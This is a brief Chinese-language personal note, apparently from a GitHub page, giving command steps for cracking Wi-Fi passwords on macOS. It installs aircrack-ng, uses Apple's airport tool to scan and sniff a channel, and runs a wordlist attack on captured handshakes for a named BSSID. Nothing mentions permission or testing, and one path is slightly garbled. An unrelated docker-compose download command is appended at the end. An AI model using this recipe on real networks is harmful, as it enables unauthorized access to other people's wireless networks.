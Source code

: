 # mac 下破解Wi-Fi

* 安装`aircrack-ng`
* 创建airport连接
* sudo ln -s /System/Library/PrivateFrameworks/Apple80211.framework/Versions/Current/Resources/airport /usr/local/bin/airport
* `/airport -s` scan wifi
* `airport card sniff 信道`
* 破解 aircrack-ng -w password.txt -b c8:3a:35:30:3e:c8 /tmp/*.cap

sudo curl -L https://github.com/docker/compose/releases/download/1.17.1/docker-compose-`uname -s`-`uname -m` -o /usr/local/bin/docker-compose
